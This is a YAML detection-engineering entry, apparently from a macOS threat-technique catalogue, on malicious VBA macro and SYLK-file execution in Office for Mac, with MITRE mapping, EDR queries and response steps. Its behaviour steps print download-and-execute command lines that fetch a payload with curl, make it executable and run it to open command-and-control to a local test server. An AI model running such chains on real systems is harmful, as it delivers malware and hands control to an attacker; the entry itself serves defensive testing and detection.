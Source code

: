 ```yaml
---
Name: Office for Mac
Description: These techniques are far more common on the Windows side, but Office for Mac also has the ability to execute VBA on macOS systems. These techniques are far less common on macOS, likely because they stand out from an EDR perspective and Microsoft has implemented sandboxing in recent versions of Office for Mac (2016 and higher). However, it is still important to test these scenarios on all Office for Mac versions, since sandbox escapes are always possible and recent techniques such as SYLK file extension abuse share some of the same detection logic as VBA execution vectors.
Author: Adam Nadrowski
Created: 2022-05-18
Full_Path:
  - Path: /Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel
  - Path: /Applications/Microsoft PowerPoint.app/Contents/MacOS/Microsoft PowerPoint
  - Path: /Applications/Microsoft Word.app/Contents/MacOS/Microsoft Word
  - Path: /bin/bash
Resources:
  - Link: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format
Commands:

  - Name: Macro VBA for Excel, PowerPoint and Word
    Description: This query detects any instance of Excel, PowerPoint or Word spawning processes. This is typically done using the MacScript command of VBA, which is becoming more restricted via the Apple Sandbox. Although Microsoft appears to be moving away from MacScript in favor of the AppleScriptTask command, there is still some room for abuse (even on current versions of Office for Mac).
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1204.002
    Behaviors:
      - Step: When opening a Office for Mac file (Excel, PPT, or Word), launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel|PowerPoint|Word" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name Microsoft Excel|PowerPoint|Word executes multiple bash processes for each command in the macro. Each future bash process is unique.
      - Step: The first command, bash executes curl to download a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data (replace Excel with PowerPoint or Word). The command line is <pre><code>sh -c curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload</pre></code>
      - Step: The next command, bash executes chmod to make the payload executable. The command line is <pre><code>sh -c chmod +x operator-payload</pre></code>
      - Step: The next command, bash executes the payload to establish C2 comms with Prelude Operator. The command line is <pre><code>sh -c ./operator-payload -name macro-vba-excel & </pre></code>
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload (replace Excel with PowerPoint or Word) makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with any of the VBA based techniques within the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: (parent_process_image_path = "/Applications/Microsoft Excel.app/*" OR parent_process_image_path = "/Applications/Microsoft PowerPoint.app/*" OR parent_process_image_path = "/Applications/Microsoft Word.app/*") and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving a file to disk using -o argument, it likely warrants immediate investigation.

  - Name: Excel macro execution via SYLK file extension
    Description: This query detects any instance of Excel launching the bash process. The SYLK file extension is an ancient extension that can be abused to execute macros. Thankfully, the OS behaviors mimick that of regular macros being executed, so the same query from the "Macro VBA for Excel, PowerPoint and Word" TTP will detect this.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1204.002
    Behaviors:
      - Step: When opening a file with the slk extension, launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name "Microsoft Excel" executes one bash process with the cmdline <pre><code>sh -c /usr/bin/curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload && chmod +x operator-payload && ./operator-payload -name macro-sylk-excel & </pre></code>
      - Step: The first command, curl, downloads a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data/operator-payload.
      - Step: The next command, chmod, makes the payload executable.
      - Step: The next command, operator-payload, is the malicious payload that executes to establish C2 comms with Prelude Operator.
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Macro SYLK Excel" procedure from the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: parent_process_image_path = "/Applications/Microsoft Excel.app/*" and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.
---
```

